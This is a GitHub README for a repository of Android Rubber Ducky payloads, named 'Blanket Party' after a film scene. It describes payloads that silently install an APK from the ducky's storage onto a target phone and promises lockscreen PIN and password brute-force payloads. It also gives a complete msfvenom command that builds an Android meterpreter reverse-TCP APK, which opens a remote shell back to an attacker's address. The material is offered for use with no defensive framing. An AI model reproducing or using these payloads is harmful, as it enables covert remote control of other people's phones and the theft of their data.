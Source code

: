 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"//
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

These payloads will install an apk to the target device that resides in the ducky storage.

The [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk

